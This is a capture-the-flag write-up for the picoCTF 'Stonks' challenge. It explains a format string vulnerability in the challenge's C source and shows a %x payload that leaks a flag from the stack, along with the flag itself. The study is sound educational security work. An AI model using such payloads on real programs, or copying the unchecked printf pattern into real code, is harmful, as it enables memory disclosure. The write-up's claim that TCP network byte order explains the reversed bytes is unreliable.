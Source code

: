 # Stonks

## Introduction

Stonks is the first challenge for Binary Exploitation. The description says: "I
decided to try something noone [sic] else has before. I made a bot to
automatically trade stonks for me using AI and machine learning. I wouldn't
believe you if you told me it's unsecure! vuln.c `nc mercury.picoctf.net 53437`"

![challenge](resources/challenge.png)

## Information Gathering

### Hint 1

> Okay, maybe I'd believe you if you find my API key.

Just one hint this time! Yikes! API stands for application programming
interface. It is used to refer to the standard that defines how two separate
component communicate with each other. Think of it like how you receive letter
grades in school. You hand in your papers and you receive a grade back. That
transaction represents an underlying API.

In this case, the API key is referring to an alphanumeric string that we can
provide this networked application that will tell it who we are. Consider it
like a password of sorts - it is unique to certain individuals or projects.

The hint is telling us to take a look at how the API key is read into the
program or maybe the API key is hardcoded to a certain value. We will have to
take a look!

### Running the Program

The description tells us how to run the program: `nc mercury.picoctf.net 53437`.
 The program `nc` is short for `netcat` and is used for all things
networking. With it, we can communicate to an existing socket, open our own, or
scan ports. Take a look at `man nc` to learn about all of it's common uses (it
even has great examples). `nc` typically takes a destination address and a port
as an argument. In this case, we are specifying that we would like to connect
to `mercury.picoctf.net` over port 53437 using the Transmission Control
Protocol (TCP).

Let's try doing this in our terminal:

```bash
$ nc mercury.picoctf.net 53437
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
```

We are met with a prompt asking for a 1 or 2 to perform certain actions. Other
characters don't seem to work. Entering `5` for example causes it to tell us
"Goodbye!".

Entering `1` prompts us for out API token:

```txt
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
```

Entering a short value here seems to work and give us a few stocks that were
purchased for us. This ends to program.

Running it again (you will have to terminate the program with Ctrl+C) and
choosing the second option shows us our portfolio and exits the program.

```txt
Portfolio as of Sun Aug  1 22:03:52 UTC 2021


You don't own any stonks!
Goodbye!
```

By playing with the program, we have identified two locations where a user can
provide input: selecting 1 or 2 (or really anything else) to select the command
and the API key. This is key to finding bugs! It's hard to get a bug where
there is no user input.

But there is more! In the description we were provided with the source code for
`vuln.c`. Let's take a look at some key parts (comments are my own).

```c
int main(int argc, char *argv[])
{
	setbuf(stdout, NULL); /* Information will be written to stdout as soon
as it is written. */
	srand(time(NULL)); /* Seed a random number. */
	Portfolio *p = initialize_portfolio(); /* Allocate some memory and set
some values. */
	if (!p) {
		printf("Memory failure\n");
		exit(1);
	}

	int resp = 0;

	printf("Welcome back to the trading app!\n\n");
	printf("What would you like to do?\n");
	printf("1) Buy some stonks!\n");
	printf("2) View my portfolio\n");
	scanf("%d", &resp); /* User input #1. Take text from stdin and convert
it to its integer representation. */

	if (resp == 1) {
		buy_stonks(p); /* This looks interesting! */
	} else if (resp == 2) {
		view_portfolio(p); /* This looks interesting! */
	}

	free_portfolio(p);
	printf("Goodbye!\n"); /* Free up our allocated memory. */

	exit(0);
}
```
I always like starting with `main`. Even without looking at the rest of the
code, it contextualizes a lot of what is going on and shows us some of the
paths that program takes. The above codeblock, in a nutshell, creates some
Portfolio structure, reads in user input, checks if it is a 1 or a 2, and calls
`buy_stonks` or `view_portfolio`. Okay, we don't see anything about flags here,
so maybe we should check out `buy_stonks`.

```c
int buy_stonks(Portfolio *p) {
	if (!p) { /* Check that this is initialized. */
		return 1;
	}
	char api_buf[FLAG_BUFFER]; /* Ooo, a static buffer of 128 bytes. */
	FILE *f = fopen("api","r"); /* Opening the flag file, this looks
promising. */
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f); /* Read 128 bytes from f and place them
into api_buf. */

	int money = p->money; /* This is a random number from 0-2018. */
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares); /* Maybe look at this? */
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf); /* User input #2. Get user input and make a
string of 300 characters. */
	printf("Buying stonks with token:\n");
	printf(user_buf); /* Bug alert! We are passing user controlled data
into this string formatter and aren't giving it the proper amount of arguments!
*/

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}
```
Okay, so this code block looks really promising. It tells us that it is opening
and reading the flag and storing the value on the stack, but never actually
showing us. Later, we have a format string vulnerability where we control the
input. This is probably the key to this challenge.

A format string vulnerability occurs when the user input is evaluated by
functions such as `printf` or `sprintf` and there are unspecified amount of
format string parameters. If we consider the faulty line `printf(user_buf)`, we
can pass as user input a string such as `%s` and have the format function look
for a second argument on the stack (or registers, depending on your
architecture) and interpret it as a string. We can expand this further and walk
up the stack by providing *a lot* of format string parameters like
`%x%x%x%x%x%x%x%x%x%x%x`. When evaluated by the `printf` function, this user
input will request 11 values off the stack. Since the function didn't provide
any in the `printf` argument, we will be causing an out-of-bounds read off the
stack. Where is our flag stored? On the stack.

We try passing a bunch of format string parameters to the program:

```bash
What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
87c8430804b00080489c3f7f85d80ffffffff187c6160f7f93110f7f85dc7087c7180187c841087c84306f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3463646261653532ffe8007d
Portfolio as of Sat Aug  7 19:11:23 UTC 2021
...
...
```

The program outputs the evaluated result from the `printf` call, and it most
definitely is not the API token we passed in. This is where it gets hand-wavey.
We can see that a lot of values look like ASCII hex (see `man ascii`). Searching
Google for a hex to ASCII converter gave us this result:

![ascii](./resources/hex_to_ascii.png)

It definitely looks like there is a flag there, judging by the brackets. But
what's up, the bytes are jumbled? This is due to [endianess][wiki].
[RFC1700][rfc] declares that TCP/IP will use big-endian when encoding data to
send over the network. We need to encode it back to little-endian to get the
order right. pwntools provides the [packing][pwn] utility to do just that; we
can use the `p32` function (which is really just a wrapper to struct.pack, but
who ever remembers all the flags to that function anyway?) to pack the data as
little-endian. A little python scripting swaps the order for us and we get the
flag: `picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}`. This gives us 20 points!

[wiki]: https://en.wikipedia.org/wiki/Endianness
[rfc]: https://ieeexplore.ieee.org/document/1667115?arnumber=1667115
[pwn]: https://docs.pwntools.com/en/stable/util/packing.html
